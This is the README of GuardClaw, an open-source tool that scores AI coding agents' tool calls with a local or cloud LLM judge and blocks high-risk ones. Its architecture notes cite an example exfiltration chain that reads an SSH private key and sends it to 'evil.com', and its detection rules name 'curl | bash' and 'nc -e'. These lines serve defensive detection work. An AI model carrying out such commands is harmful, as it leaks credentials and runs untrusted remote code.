




<p align="center">
  <h1 align="center">
    
    GuardClaw
  </h1>
  <p align="center">
    <strong>Risk-scores every tool call your AI agent makes.</strong><br>
    Blocks the dangerous ones. Stays out of the way on the rest.
  </p>
</p>

<p align="center">
  <a href="https://github.com/TobyGE/GuardClaw/stargazers"></a>
  <a href="https://www.npmjs.com/package/guardclaw"></a>
  = 18">
  
  
</p>

<p align="center">
  <a href="https://tobyge.github.io/GuardClaw/"><strong>🌐 Website</strong></a> ·
  <a href="https://tobyge.github.io/GuardClaw/docs/"><strong>📖 Documentation</strong></a> ·
  <a href="https://tobyge.github.io/GuardClaw/docs/cli/overview"><strong>⚙️ CLI Reference</strong></a> ·
  <a href="#quick-start">Quick Start</a> ·
  <a href="#feedback--issues"><strong>💬 Feedback</strong></a> ·
  <a href="docs/ROADMAP.md">Roadmap</a>
</p>

<p align="center">
  
</p>

---

## The Problem

AI agents usually fail in one of two ways:

- **Too loose:** dangerous operations run with little control
- **Too strict:** safe operations keep interrupting the user

GuardClaw sits between the agent and its tools, scores each action with a local or cloud judge, and makes a practical decision:

- safe actions continue without friction
- suspicious actions are surfaced for approval

## GuardClaw vs Claude Code Auto Mode

|                      | Claude Code Auto Mode            | **GuardClaw**                                    |
| -------------------- | -------------------------------- | ------------------------------------------------ |
| Agent support        | Claude Code only                 | **7 agents** (CC, Codex, Gemini, Cursor, …)      |
| Risk assessment      | Static allowlist / blocklist     | **LLM judge** with context-aware scoring (1-10)  |
| Chain analysis       | None — each call judged alone    | **Multi-step tracking** (read key → curl = block) |
| Memory               | Stateless per conversation       | **4-level memory** — learns across sessions       |
| Visibility           | Silent — no audit trail          | **Dashboard + menu bar + notifications**          |
| Customization        | Limited permission toggles       | **Full config** — thresholds, models, rules        |
| User learning        | No                               | **Adapts** to your approve / deny history          |
| External alerts      | No                               | **Telegram / Discord / WhatsApp** approval flow   |
| Open source          | No                               | **MIT**                                            |

## Quick Start

Requires Node.js >= 18.

```bash
npm install -g guardclaw
guardclaw start
```

Takes about 30 seconds. No account needed. Uninstall any time with `npm uninstall -g guardclaw`.

First launch opens an interactive wizard:

1. **Evaluation mode:** local / mixed / cloud
2. **LLM backend:** local (LM Studio, Ollama, built-in MLX) and/or cloud (Claude, OpenAI Codex, MiniMax, Kimi, OpenRouter, Gemini, OpenAI). Cloud providers support OAuth or API key.
3. **Response mode:** `Auto` (warn and flag risky calls) or `Monitor only` (log without intervention)
4. **Agent connections:** auto-detects installed agents and installs hooks/plugins with one confirm

Re-run any time with `guardclaw setup`. Restart the target agent after installing hooks.

## Supported Agents

Works with 7 major coding agents out of the box. Full pre-tool blocking on 6, shell-only on Cursor.

| Agent | Integration | Pre-tool blocking | Approval flow | Notes |
|-------|------------|:-----------------:|:-------------:|-------|
| [Claude Code](https://docs.anthropic.com/en/docs/claude-code) | HTTP hooks | ✅ | ✅ | Full support |
| [Codex CLI](https://github.com/openai/codex) | Command hooks | ✅ | ✅ | Full support |
| [Gemini CLI](https://github.com/google-gemini/gemini-cli) | HTTP hooks | ✅ | ✅ | Full support |
| [OpenCode](https://opencode.ai) | HTTP hooks | ✅ | ✅ | Full support |
| [OpenClaw](https://github.com/openclaw/openclaw) | WebSocket plugin | ✅ | ✅ | Full support; requires gateway |
| [Cursor](https://cursor.com) | Shell hooks | ⚠️ | ✅ | Shell commands only; file operations (read/write/edit) are not intercepted |
| [GitHub Copilot CLI](https://github.com/github/copilot-sdk) | HTTP hooks (shared with CC) | ✅ | ✅ | Full support via Claude Code hook endpoint |

## Product Tour

### Dashboard

The web dashboard (`localhost:3002`) is the central control plane: event timeline, risk filters, session visibility, blocking toggles.


### Security Scan

Static checks for MCP configuration, secrets exposure, and agentic-risk patterns.



### Menu Bar App (macOS)



[GuardClawBar](docs/GUARDCLAWBAR.md) lives in the macOS menu bar so you can monitor GuardClaw without keeping the dashboard tab open. The popover shows live per-agent event counts, recent risky calls, and a quick toggle for blocking mode. Each agent (Claude Code, Codex, Gemini, OpenClaw) has its own tab. Approval prompts fire as native notifications so you can allow or deny right from the corner of your screen.

<br clear="right">


## How It Works

1. Agent calls a tool (exec, read, write, browser, etc.)
2. GuardClaw captures context and sends it to the local judge model
3. The model returns risk score + verdict + reasoning
4. GuardClaw logs, allows, or gates execution based on policy

### Risk Tiers

| Score | Verdict | Behavior |
| ----- | ------- | -------- |
| 1-3 | SAFE | Runs normally |
| 4-7 | WARNING | Runs with stronger audit signal |
| 8-10 | HIGH RISK | Requires approval / blocking |

### Architecture

GuardClaw has four core subsystems. The short version:

- **Two-Stage Judge.** A local judge model (via LM Studio / Ollama / MLX) scores every tool call. High-risk calls (score ≥ 8) escalate to a cloud judge (Claude) with richer context.
- **Multi-Level Security Memory.** Four levels of memory (raw events → session brief → project context → global knowledge) designed to catch long-range attacks that unfold over hundreds of tool calls.
- **Adaptive Memory & Chain Analysis.** Learns from your approve/deny decisions, tracks tool-call sequences per session, and flags multi-step exfiltration like `read ~/.ssh/id_rsa → curl evil.com`.
- **Active Intervention.** Injects safety guidance into the agent's context before risky calls, dual-channel approval (agent dialog + dashboard + optional Telegram/Discord/WhatsApp push), circuit breaker on repeated denials, credential scanning on tool output, prompt injection detection, skill security review, and DTrace syscall monitoring (macOS).

#### Fast Paths (before the LLM)

Three checks run before the local judge to keep latency low:

- **High-risk patterns.** Regex match on known-bad commands (`curl | bash`, `nc -e`) → instant score 9.
- **Safe fast-path.** Allowlist of safe commands (`git status`, `npm test`) → instant score 1.
- **Agent permissions.** Reads each agent's own config and auto-allows anything the agent already permits.

## CLI Reference

```
guardclaw start          # start server (opens dashboard)
guardclaw stop           # stop server
guardclaw setup          # re-run the interactive setup wizard
guardclaw status         # server & judge status
guardclaw check <cmd>    # manually risk-score a command
guardclaw help           # full command list
```

**Full CLI documentation with every command, flag, and option:**
[https://tobyge.github.io/GuardClaw/docs/cli/overview](https://tobyge.github.io/GuardClaw/docs/cli/overview)

## Development

To hack on GuardClaw itself, install from source:

```bash
git clone https://github.com/TobyGE/GuardClaw.git
cd GuardClaw
nvm use || nvm install
npm ci && npm ci --prefix client
npm run build
npm link
guardclaw start
```

`npm run dev` runs server (nodemon) + client (Vite) concurrently. See [CLAUDE.md](CLAUDE.md) for the architecture overview.

## Feedback & Issues

We genuinely want to hear from you. GuardClaw is early, and real-world usage is the best way to make it better.

- 🐛 **Found a bug?** [Open an issue](https://github.com/TobyGE/GuardClaw/issues/new)
- 💡 **Have a feature idea?** [Open an issue](https://github.com/TobyGE/GuardClaw/issues/new) — any suggestion is welcome
- 🤔 **Stuck on setup?** [Open an issue](https://github.com/TobyGE/GuardClaw/issues/new) — no question is too small
- ❤️ **Something you love?** [Open an issue](https://github.com/TobyGE/GuardClaw/issues/new) too — we want to know what's working

All feedback, big or small, goes through [GitHub Issues](https://github.com/TobyGE/GuardClaw/issues). No template required, no account hoops — just say what's on your mind.

## Links

- 🌐 **Website:** [tobyge.github.io/GuardClaw](https://tobyge.github.io/GuardClaw/)
- 📖 **Documentation:** [tobyge.github.io/GuardClaw/docs](https://tobyge.github.io/GuardClaw/docs/)
- ⚙️ **CLI Reference:** [tobyge.github.io/GuardClaw/docs/cli/overview](https://tobyge.github.io/GuardClaw/docs/cli/overview)
- 📦 **npm package:** [npmjs.com/package/guardclaw](https://www.npmjs.com/package/guardclaw)
- [Roadmap](docs/ROADMAP.md)
- [Menu Bar App](docs/GUARDCLAWBAR.md)
- [LM Studio Troubleshooting](docs/LMSTUDIO-TROUBLESHOOTING.md)

---

<p align="center">
  <sub>Locally judged. Open source. Your data stays on your machine.</sub>
</p>
